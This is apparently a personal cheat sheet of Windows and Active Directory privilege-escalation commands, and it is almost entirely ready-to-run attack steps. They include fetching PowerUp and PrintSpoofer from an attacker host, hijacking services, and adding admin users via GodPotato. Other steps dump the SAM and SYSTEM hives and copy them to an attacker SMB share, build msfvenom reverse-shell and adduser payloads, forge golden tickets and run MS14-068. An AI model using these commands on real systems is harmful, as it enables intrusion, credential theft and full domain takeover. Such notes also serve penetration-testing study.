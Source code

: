 System browsing:
---
```cmd
net user
```

```powershell
Get-LocalUser
```

```powershell
GCI -hidden -recurse
ls -force
```

```cmd
net user $USER
```

```cmd
netstat -an
netstat -an | findstr $PORT
```

```powershell
net accounts
```

Replace service
---
Get list of running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check file permissions:

```powershell
icacls 'c:\...'
```
(F) - full permissions, read, write, execute

Check env vars:
```powershell
ls env:
```

or automate the process with PowerUp.ps1
#powerup #replace-service #privesc 
```powershell
iwr -uri http://$LOCAL_IP/PowerUp.ps1 -Outfile PowerUp.ps1
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '$SERVICE'
Restart-Service $SERVICE
Start-Service $SERVICE
```

Evil-WinRM:
#built-in #winrm #evilwinrm 

```powershell
services
download
upload
```
Scheduled Tasks:
---

#scheduled-tasks

```powershell
schtasks /query /fo LIST /v | findstr /i "c:\users"
schtasks /query /fo LIST /v | Select-String -Pattern "c:\\user" -Context 5,5
```

```powershell
schtasks /create /tn "shell" /tr "task.exe" /sc MINUTE /mo 1 /ru "NT AUTHORITY\SYSTEM"
```

```bash
msfvenom -p windows/adduser USER=admin2 PASS=P@ssword123! -f msi-nouac -o alwe.msi
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v "\`""
```

#unquoted #service-privesc

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v "\`"" | findstr ":"
```

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Stop-Service $SERVICE
Write-ServiceBinary -Name '$SERVICE' -Path "C:\$UNQUOTED_PATH"
Restart-Service $SERVICE
```

Abusing enabled SeImpersonatePrivilege with PrinterSpoofer64:

```powershell
whoami /priv | select-string "SeImpersonatePrivilege(.*)Enabled"
iwr -uri http://$LOCAL_IP/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

adding user with godpotato.exe
```powershell
.\GodPotato.exe -cmd "net user test Password123! /add"
.\GodPotato.exe -cmd "net localgroup administrators test /add"
.\GodPotato.exe -cmd 'net localgroup \"Remote Desktop Users\" test /add'
.\GodPotato.exe -cmd 'net localgroup \"Remote Management Users\" test /add'
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

Other privileges that can be exploited if enabled: 
`SeBackupPrivilege` `SeAssignPrimaryToken` `SeLoadDriver` `SeDebugPrivilege` `SeBackupPrivilege`

 Abuse:
#SEDebugPrivilege 

```bash
impacket-smbserver -smb2support s .
```

```powershell
cd c:\
reg save hklm\sam c:\temp\sam
reg save hklm\system c:\temp\system
cp system //$LOCAL_IP/s/system
cp sam //$LOCAL_IP/s/sam
```

```bash
pypykatz registry --sam sam system
```
Generate Payload for DLL hijacking
---
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o revshell.dll
```
Golden ticket
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $TARGET_AD -spn AnyName/dc.$TARGET_AD administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$TARGET_AD/$USER:$PASSWORD@$MACHINE.$TARGET_AD'
```

Port scanning using PowerShell
---

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```